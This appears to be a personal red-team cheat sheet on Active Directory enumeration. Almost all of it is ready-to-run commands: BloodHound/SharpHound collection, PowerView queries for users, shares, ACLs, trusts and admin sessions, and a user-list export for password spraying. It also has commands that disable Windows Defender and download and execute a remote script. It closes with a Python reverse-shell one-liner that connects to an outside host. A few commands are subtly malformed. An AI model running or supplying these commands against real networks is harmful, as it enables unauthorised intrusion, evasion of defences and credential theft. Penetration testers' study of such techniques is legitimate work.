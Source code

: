 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE


# ACTIVE DIRECTORY


## DOMAIN ENUMERATION

I do prefer to do manual enumeration but on large enterprice networks, some automated scan would come in handy to search for low hanging fruits

Automated Scanners
AdPeas.ps1

You can aswell use BloodHound to visualize data

```powershell
#For SharpHound.exe
./SharpHound.exe --CollectionMethod All

#For SharpHound.ps1
Invoke-BloodHound -ZipFileName ratloot -CollectionMethod All -Domain  rat.local

```
<span class="demo-highlight"># Patch AMSI or disable AV</span>

Getting hands dirty with PowerView
```powershell
      Set-MpPreference -DisableRealTimeMonitoring -DisableAVIOProtection $true
      iex(New-Object System.Net.WebClient).downloadString('http:/x.x.x.x./PowerView_DeV.ps1')
```
 <br>
 <span class="demo-highlight"># Domain & Controller Enumeration</span>

```powershell
      Get-NetDomain 
            
      Get-NetDomainController     
```
<br>
 <span class="demo-highlight"># User Enumeration</span>

```powershell
# Get all users present in the domain
Get-NetUsers | select cn

# Get users sorted with most logoncounts
Get-UserProperty -Properties logoncount | where logoncount | sort logoncount -Descending

# Get all the users in the domain and pipe their username to build a wordlist that could be used with crackmapexec later for spraying
Get-NetUsers | select samaccountname > username.txt

```
<br>
<span class="demo-highlight"># Group Enumeration </span>

```powershell
# Get AD groups data either all or of a user
Get-NetGroup [-Domain <target>] [-FullData] [-GroupName "*admin*"] [-Username 'user_name']

# Get Members of a group
Get-NetGroupMember [-GroupName 'group_name'] [-Recurse]	
```
<br>
<span class="demo-highlight"># Share Enumeration</span>

```powershell
# Find interesting shares
Invoke-ShareFinder -ExcludeStandard -ExcludeIPC -ExcludePrint	

```
<br>
<span class="demo-highlight"># GPO Enumeration</span>

```powershell
# List all GPOs in the domain
Get-NetGPO [-ComputerName <rat.domain>]	

#Find Interesting GPO
Get-NetGPOGroup

```
<br>
<span class="demo-highlight"># OU Enumeration</span>

```powershell
# Get all OU (Organisational Units) in the domain
Get-NetOU [-FullData]

# Get gplink of an OU to get GPOs applied to it
(Get-NetOU -Name 'test').gplink	

# Get GPO of a GPlink
Get-NetGPO -GPOName '{cadkfapsdfasdfaudvajkd}'

# Get GPO of an OU using gplink
((Get-NetOU -FullData <OU_NAME>).gplink -split "cn=" -split ",")[1] | Get-NetGPO
```
<br>
<span class="demo-highlight"># ACL Enumeration</span>

```powershell
# Find interesting ACL
Invoke-ACLScanner -ResolveGUIDS	

# Find interesting ACL owned by a certain user :rat:
Invoke-ACLScanner -ResolveGUIDS | ?{$_.IdentityReference -match 'rat'}	
```
<br>
<span class="demo-highlight"># Trust Enumeration</span>

```powershell
# Map all domain trust
Get-NetDomainTrust [-Domain <target>]

# Get all the domain of a forest
Get-NetForestDomain [-Forest <target>]	
```
<br>
<span class="demo-highlight"># Hunting Users and Sessions</span>

```powershell
# Get list of all machines where current user has local admin access
Find-LocalAdminAccess	

# Invoke-EnumerateLocalAdmin	
Find all admins on all computers

# Find machines where a domain admin has a session, checkaccess tells you if you also have access to that machine
Invoke-UserHunter [-GroupName <group_name>] [-CheckAccess]	

# Get list of active sessions on a computer
Get-NetSession [-ComputerName <comp_name>]	

# Get list of Users logged-on on a system
Get-LoggedOnLocal [-ComputerName <comp_name>]	
```

<br>

```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```